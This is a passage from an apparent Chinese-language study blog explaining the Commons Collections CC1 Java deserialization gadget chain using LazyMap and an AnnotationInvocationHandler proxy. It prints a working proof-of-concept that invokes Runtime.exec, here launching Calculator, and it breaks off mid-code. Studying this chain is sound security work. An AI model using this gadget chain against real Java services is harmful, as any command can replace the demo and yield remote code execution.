 ![image-20220930205142653](https://tuchuang.huamang.xyz/img/image-20220930205142653.png)

# LazyMap利用链构造

了解了动态代理，我们再回头看看，我们刚才是在想得怎么调用`AnnotationInvocationHandler.invoke()`，我们去翻源码会发现，其实他就是实现了InvocationHandler接口的，那就非常的巧了，我们如果用AnnotationInvocationHandler去代理我设计好的Map的话，那么这个Map执行任意的方法都会走进invoke从而进入我们构造好的链子了

![image-20220930210757525](https://tuchuang.huamang.xyz/img/image-20220930210757525.png)

所以我们可以这样开始写POC了，前面的都是没变的，TransformedMap换成LazyMap

然后用Proxy代理，但是不能直接拿去反序列化，因为我们要入口点是是`sun.reflect.annotation.AnnotationInvocationHandler#readObject`

所以还要用AnnotationInvocationHandler对这个proxyMap进行包裹

```java
handler = (InvocationHandler) construct.newInstance(Retention.class,
proxyMap);
```

最后的POC

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1pro {
    public static void main(String[] args) throws ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchMethodException, IOException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0]}),
                new InvokerTransformer("exec", new Class[] { String.class }, new String[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class,proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
```